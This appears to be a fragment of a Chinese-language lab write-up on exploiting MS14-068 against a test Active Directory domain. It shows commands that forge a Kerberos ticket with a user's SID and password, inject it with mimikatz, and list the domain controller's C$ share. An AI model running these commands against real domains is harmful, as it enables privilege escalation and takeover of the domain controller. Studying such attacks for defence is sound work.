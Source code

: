 ![image-20220318194110678](README/image-20220318194110678.png)

直接生成票据：

```
MS14-068.exe -u yutaowin10@ghost.com -s S-1-5-21-1238213221-2393825874-2881136966-1109 -d 192.168.188.100 -p Admin123!
```

使用生成的票据：

```
kerberos::ptc TGT_yutaowin10@ghost.com.ccache
```

通过域控的主机名访问：

```
dir \\WIN-4JS3YOGGQ2T\c$
```

